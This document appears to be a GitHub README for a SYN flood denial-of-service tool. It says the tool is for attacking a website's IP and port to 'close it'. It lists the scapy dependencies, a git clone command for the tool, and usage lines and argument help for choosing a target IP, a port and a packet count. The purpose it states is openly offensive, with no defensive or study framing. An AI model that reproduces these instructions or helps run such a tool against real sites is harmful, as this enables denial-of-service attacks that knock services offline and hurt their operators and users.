 # attack.web.ip
A tool that helps in attacking sites, just extract the site's ip and port, and then you can attack the site and close it, but you need more devices to disable the site





## Dependencies
```
apt install python-scapy
apt install python3-scapy
```

## Installation

```
git clone https://github.com/EmreOvunc/Python-SYN-Flood-Attack-Tool.git
cd Python-SYN-Flood-Attack-Tool
```

## Usage

```
python3 py3_synflood_cmd.py -t ip -p port -c 5
python3 py3_SYN-Flood.py
python SYN-Flood.py
```
```
usage: py3_synflood_cmd.py [-h] [--target TARGET] [--port PORT]
                           [--count COUNT] [--version]

optional arguments:
  -h, --help            show this help message and exit
  --target TARGET, -t TARGET
                        target IP address
  --port PORT, -p PORT  target port number
  --count COUNT, -c COUNT
                        number of packets
  --version, -v         show program's version number and exit

Usage: python3 py3_synflood_cmd.py -t ip -p port -c 1
```
